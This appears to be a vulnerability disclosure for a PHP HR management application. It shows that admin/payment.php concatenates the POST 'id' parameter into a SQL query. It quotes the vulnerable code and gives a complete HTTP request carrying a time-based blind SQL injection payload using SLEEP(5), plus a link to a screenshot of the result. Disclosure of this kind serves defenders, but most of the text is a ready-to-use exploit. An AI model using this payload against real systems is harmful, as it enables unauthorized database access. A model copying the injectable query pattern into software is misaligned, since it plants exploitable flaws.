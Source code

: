 ### Vulnerability file address

`admin/payment.php` from line 7,The `$_POST['id']` parameter is controllable and the `$_POST['id']` is not protected from sql injection, line 8 `$stmt->execute();` ,line 10 `$product = $stmt->fetch(PDO::FETCH_ASSOC);`,line 10 performs a SQL query, causing SQL injection

```php
<?php
//echo  "SELECT * FROM tbl_invoice WHERE id='".$_GET['id']."'";
include('../assets/constants/config.php');
require_once('../assets/constants/check-login.php');
require_once('../assets/constants/fetch-my-info.php');

$stmt = $conn->prepare("SELECT * FROM tbl_invoice WHERE id='".$_POST['id']."'");
$stmt->execute();
//echo print_r($stmt);exit;
$product = $stmt->fetch(PDO::FETCH_ASSOC);
```

### POC

```http
POST /CMS/php/_hr_soft/admin/payment.php HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

id=160' AND (SELECT 4856 FROM (SELECT(SLEEP(5)))AtZj)-- gowM
```

### Attack results pictures

![image-20250130165213747](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501301652785.png)